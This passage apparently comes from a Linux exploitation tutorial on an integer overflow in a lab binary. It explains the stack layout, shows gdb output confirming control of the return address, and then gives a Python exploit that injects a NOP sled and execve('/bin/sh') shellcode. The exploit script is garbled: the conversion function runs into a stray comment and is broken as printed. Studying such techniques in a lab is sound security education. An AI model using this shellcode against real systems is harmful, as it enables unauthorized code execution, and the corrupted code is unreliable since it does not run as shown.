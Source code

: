 ```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```
where
* 0xb is ‘passwd_buf’ size
* 0x1 is ‘passwd_len’ size
* 0x4 is alignment space
* 0x4 is edi
* 0x4 is caller’s EBP

Thus user input of form “A” * 24 + “B” * 4 + “C” * 233, overwrites passwd_buf, passwd_len, alignment space, edi and caller’s ebp with “A”‘s, return address with “BBBB” and remaining space with C’s.

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

Above output shows that attacker gets control over return address. Return address located at stack location (0xbffff1fc) is overwritten with “BBBB”. With these informations, lets write an exploit program to achieve arbitrary code execution.

Exploit Code:

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```


[//]: <> (文章所涉及到的技术点的链接)
[//]: <> (题目)
[//]: <> (内容)